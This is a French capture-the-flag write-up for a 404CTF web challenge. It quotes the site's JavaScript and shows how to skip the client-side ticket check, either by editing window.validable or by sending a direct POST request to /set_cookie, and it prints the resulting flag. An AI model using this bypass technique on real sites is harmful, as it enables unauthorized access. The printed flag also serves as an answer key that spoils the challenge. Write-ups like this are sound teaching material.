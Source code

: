 # Vous êtes en RETARD
## Enoncé
> Vous voilà devant le stade pour voir le dernier match de votre équipe préférée, le Gorfou FC !
> Malheureusement, vous êtes arrivé.e en retard et l'entrée est fermée... Mais pas de panique, il vous suffit de trouver un moyen pour quand même rentrer !

Auteur: **@Asumamusa**
 
Connexion: `https://en-retard.challenges.404ctf.fr`

## Analyse

On arrive directement sur une page vierge avec un panneau nous signalant une interdiction

<p align="center">
    <img src="../../images/404CTFWeb1.png" alt="img1" style="width:40%;">
</p>

En inspectant le code source on tombe sur un script js intéressant:
```javascript
setInterval(function() {
    var panneau = document.querySelector('.panneau');
    var barre = document.querySelector('.barre-en-fer');
    if (!panneau && barre) {
        barre.remove();
    }
}, 100);

document.querySelector('.entrer-dans-le-stade').addEventListener('click', function() {
    window.location.href = '/donnez-moi-mon-ticket-pitie';
});

window.onload = function() {
    var cookies = document.cookie.split('; ');
    var fraudeur = cookies.find(row => row.startsWith('fraude='));

    if (fraudeur && fraudeur.split('=')[1] === 'true') {
        var zoneTexte = document.querySelector('.zone-texte');
        zoneTexte.textContent = 'Vous avez essayé de frauder, mais le vigile vous a aperçu et vous a ramené à l\'entrée...';
        zoneTexte.style.display = 'block';
    }
};
```
On se rend sur le chemin `/donnez-moi-mon-ticket-pitie` et on trouve encore une fois un nouveau script js:
```javascript
var bouton = document.querySelector('.valider-billet');
var billet = document.querySelector('.billet');
window.validable = [];
bouton.addEventListener('click', function() {
    if (window.validable.includes(billet.id)) {
        fetch('/set_cookie', {method: 'POST'}).then(function() {
            window.location.href = "/devant-le-match";
        });
    } else {
        alert('Billet non validé');
    }
});

## Exploitation
```
On peut alors soit modifier la variable `window.validable` pour y inclue un id, soit directement faire une requête POST au chemin `/set_cookie`.
```http
POST /set_cookie HTTP/2
Host: en-retard.challenges.404ctf.fr
Sec-Ch-Ua: "Not-A.Brand";v="99", "Chromium";v="124"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Priority: u=0, i
```

Le flag est reçu sous forme de cookie en clair `allergies=404CTF{gluten-sucre-au-sucre}`

Flag: **404CTF{gluten-sucre-au-sucre}**